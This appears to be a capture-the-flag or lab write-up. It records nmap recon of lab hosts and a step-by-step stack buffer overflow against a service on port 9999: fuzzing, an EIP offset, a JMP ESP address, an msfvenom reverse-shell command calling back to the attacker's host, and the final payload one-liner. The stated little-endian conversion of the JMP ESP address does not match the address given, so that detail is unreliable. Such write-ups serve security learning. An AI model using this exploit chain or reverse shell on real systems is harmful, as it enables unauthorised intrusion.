


# Recon

## Hosts

`sudo nmap -sn 10.10.48.42/24`
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-21 12:50 EST
Nmap scan report for 10.10.48.1
Host is up (0.043s latency).
Nmap scan report for 10.10.48.100
Host is up (0.045s latency).
Nmap scan report for 10.10.48.186
Host is up (0.044s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 22.10 seconds

## Ports
Nmap scan report for **10.10.48.42**
Host is up (0.046s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
3389/tcp open  ms-wbt-server
9999/tcp open  abyss

Nmap scan report for **10.10.48.100**
Host is up (0.043s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http

Nmap scan report for **10.10.48.186**
Host is up (0.043s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
111/tcp open  rpcbind 2-4 (RPC #100000)

## Buffer overflow

Checking out the service on port 9999:

Fuzzing it: Crash after sending **4700** bytes

Create a pattern:
`/usr/share/metasploit_framework/tools/exploit/pattern_create.rb -l 5200` 

`!mona findmsp -distance 5200`  
EIP contains normal pattern : 0x31704330 (offset 2012)

**Badchars**:  
Let's ignore it for now (we'll later see that the msfvenom payload does not contain bad chars)

**JMP ESP**:  
`!mona jmp -r esp -cpb "\x00"`
Found some in the provided essfunc.dll
e.g. **625014DF** ---Little Endian---> **\x03\x15\x50\x62**

Generate shell code:  
`msfvenom -p windows/shell_reverse_tcp LHOST=10.9.188.225 LPORT=4445 EXITFUNC=thread -b '\x00' -f c` (payload size 351 bytes)

Our final code:  
`python -c "print('\x90' * 2012 + '\x03\x15\x50\x62' + '\x90' * 30 + '[payload]')"`

## Looting
Yay, that worked!

